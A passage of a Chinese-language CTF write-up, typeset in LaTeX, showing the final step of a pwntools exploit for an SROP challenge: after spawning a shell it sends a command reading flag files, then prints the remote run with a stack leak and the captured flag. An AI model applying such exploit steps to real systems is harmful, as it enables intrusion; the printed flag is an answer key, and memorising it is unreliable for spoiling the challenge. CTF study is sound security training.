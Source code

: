 \documentclass[10pt,a4paper]{article}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\FloatTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\renewenvironment{Shaded}{%
  \def\FrameCommand{\fboxsep=3.2pt\colorbox{shadecolor}}%
  \MakeFramed{\advance\hsize-\width\FrameRestore\small}%
}{%
  \endMakeFramed
}
\renewenvironment{quote}{%
  \begin{mdframed}[linewidth=0pt,innerleftmargin=0pt,innerrightmargin=0pt,
    innerbottommargin=0pt,innertopmargin=0pt,skipabove=0.55em,skipbelow=0.55em,
    leftmargin=0.9em,rightmargin=0.4em,startcode={\color{quotebar}\vrule width 2.6pt},%
    endcode={}]%
  \itshape\color{black}%
}{%
  \end{mdframed}%
}
\begin{document}
\paragraph{步驟 6：取 flag}\label{ux6b65ux9a5f-6ux53d6-flag}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{time.sleep(}\FloatTok{0.5}\NormalTok{)                    }\CommentTok{\# 等 shell 起來}
\NormalTok{p.sendline(}\StringTok{b"cat flag.txt /flag /home/*/flag.txt 2\textgreater{}/dev/null; id; echo DONE"}\NormalTok{)}
\NormalTok{time.sleep(}\FloatTok{1.5}\NormalTok{)                    }\CommentTok{\# 等指令跑完、輸出回到我們手上}
\NormalTok{out }\OperatorTok{=}\NormalTok{ p.recvrepeat(}\DecValTok{3}\NormalTok{)              }\CommentTok{\# 一直收到「3 秒內沒有新資料」為止}
\end{Highlighting}
\end{Shaded}

\begin{quote}
※提示 \texttt{execve("/\allowbreak{}bin/\allowbreak{}sh")} 之後，我們是在跟一個 \textbf{shell}
講話，所以要\textbf{等一下}再送指令
（\texttt{time.\allowbreak{}sleep(0.\allowbreak{}5)}），送完再等它輸出（\texttt{time.\allowbreak{}sleep(1.\allowbreak{}5)}）。
\texttt{p.\allowbreak{}recvrepeat(3)} = 「一直收到 3 秒內沒有新資料為止」（等同
\texttt{recvall(timeout=3)}）， 因為我們不知道 flag 有幾個 byte。 最後用
\texttt{re.\allowbreak{}search(rb"{[}A-\allowbreak{}Za-\allowbreak{}z0-\allowbreak{}9\_\allowbreak{}{]}+\textbackslash{}\allowbreak{}\{\allowbreak{}{[}\^\allowbreak{}{}\allowbreak{}\}\allowbreak{}{]}*\textbackslash{}\allowbreak{}\}\allowbreak{}",\allowbreak{}\ \allowbreak{}out)}
把 \texttt{sun\{\allowbreak{}…\}\allowbreak{}} 從一堆輸出裡抓出來。
\end{quote}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsubsection{7.
實際執行結果}\label{ux5be6ux969bux57f7ux884cux7d50ux679c}

遠端（\texttt{python3\ \allowbreak{}exploit.\allowbreak{}py\ \allowbreak{}REMOTE}，要在 \texttt{pwn1/}
目錄下執行）：

\begin{Verbatim}[breaklines=true,breakanywhere=true,breakautoindent=false,fontsize=\fontsize{7.0}{9.5}\selectfont]
$ python3 exploit.py REMOTE
[+] Opening connection to chal.sunshinectf.games on port 26003: Done
[+] stack leak  = 0x7ffee35ef418
[*] vuln buffer = 0x7ffee35ef398

[+] raw output:
sun{r3caLl_ev3Ry_reGist3r_sR0p}
uid=1337(total_recall) gid=1337(total_recall) groups=1337(total_recall)
DONE

[+] FLAG: sun{r3caLl_ev3Ry_reGist3r_sR0p}
\end{Verbatim}
\end{document}
